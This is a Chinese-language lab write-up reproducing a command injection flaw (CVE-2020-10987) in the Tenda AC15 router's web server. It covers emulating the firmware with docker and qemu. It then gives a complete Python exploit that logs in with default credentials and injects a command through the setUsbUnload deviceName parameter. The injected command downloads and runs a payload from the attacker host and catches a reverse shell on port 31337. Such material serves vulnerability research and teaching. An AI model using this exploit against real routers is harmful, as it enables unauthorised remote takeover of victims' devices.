 # Tenda AC15 命令注入漏洞（CVE-2020-10987）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd（有漏洞 Web 服务器）：192.168.2.2:80
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/qemu-system:armhf`

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin"
```

构建并启动漏洞环境：

```sh
# 初始化环境
$ ./init_env.sh arm

# 构建镜像
$ docker-compose -f docker-compose-system.yml build

# 启动容器
$ docker-compose -f docker-compose-system.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 http://192.168.2.2/

# 漏洞利用，根据输出的地址信息修改 libc_base
$ python3 tools/exp.py
```

## 漏洞复现

![img](./poc.png)

## Exploit

```py
#!/usr/bin/python3

from pwn import *
import requests
from threading import Thread

cmd  = b'wget http://192.168.2.1:8000/tools/msf -O /msf;'
cmd += b'chmod 777 /msf;'
cmd += b'/msf'

assert(len(cmd) < 255)

url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/setUsbUnload/?deviceName=;%20" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    s.post(url=url, data=data)
    s.post(url=payload, data=data)

thread = Thread(target=attack)
thread.start()

io = listen(31337)
io.wait_for_connection()
log.success("getshell")
io.interactive()
```

## 参考链接

- https://www.nosec.org/home/detail/4634.html
